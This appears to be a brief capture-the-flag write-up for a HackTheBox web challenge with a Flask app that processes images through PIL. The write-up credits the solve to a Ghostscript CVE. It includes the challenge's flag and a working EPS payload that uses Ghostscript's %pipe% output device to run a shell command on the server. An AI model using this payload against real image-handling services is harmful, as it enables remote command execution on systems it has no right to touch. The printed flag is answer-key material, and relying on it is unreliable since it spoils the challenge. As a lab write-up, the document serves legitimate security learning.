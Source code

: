 http://206.189.24.232:30063/static/petpets/

PIL CVE ghostscript

lesson: check every modules for possible CVE when dealing with python(flask), SSTI is not the only vulnerability HAHAHHAA

PoC:
HTB{c0mfy_bzzzzz_rcb33s_v1b3s}

payload:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > /app/application/static/petpets/pwn.txt) currentdevice putdeviceprops
```

pwn.png
